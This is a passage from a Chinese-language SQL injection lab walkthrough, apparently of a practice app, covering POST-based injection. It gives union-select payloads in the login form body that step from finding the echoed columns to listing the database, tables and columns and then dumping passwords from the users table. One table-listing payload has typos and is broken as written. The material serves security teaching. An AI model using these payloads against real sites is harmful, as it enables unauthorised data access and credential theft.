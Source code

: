 ![image](https://user-images.githubusercontent.com/76896357/114960633-07ec2200-9e9a-11eb-8e7a-82cdf6ab5b48.png)

只有这种情况下睡眠3秒，因此猜测闭合方式是“。。

## 11. POST类型的注入

探水：

![image](https://user-images.githubusercontent.com/76896357/114960898-8ba60e80-9e9a-11eb-9f6c-881547ef14d6.png)

抓包来看一下

![image](https://user-images.githubusercontent.com/76896357/114962318-0f60fa80-9e9d-11eb-92d2-b93a8ff6982b.png)

这里之前输入了好多种情况，只有‘才会报错，那么估计闭合方式是‘，再看一下有没有回显

* 查看回显
```
uname=-admin' union select 1,2#&passwd=admin&submit=Submit
```

![image](https://user-images.githubusercontent.com/76896357/114963421-4c2df100-9e9f-11eb-9889-9096449b170b.png)

本来之前以为和前十一样，没想到。。。只有两列

**说明有回显**

* 查库
```
uname=-admin' union select database(),2#&passwd=admin&submit=Submit
```

* 查表
```
uname=-admin' union select 1,table_name from information_shema.tabes where table_schema=security #&passwd=admin&submit=Submit
```

![image](https://user-images.githubusercontent.com/76896357/114963822-26edb280-9ea0-11eb-9610-79564eb378f4.png)

* 查列
```
uname=-admin' union select database(),group_concat(column_name) from information_schema.columns where table_name='users'#&passwd=admin&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/114964056-8c41a380-9ea0-11eb-8bdc-799356b8bdd6.png)

* 查字段

```
uname=-admin' union select database(),group_concat(password) from security.users #&passwd=admin&submit=Submit
```

![image](https://user-images.githubusercontent.com/76896357/114964198-d2970280-9ea0-11eb-8470-743c67459ece.png)
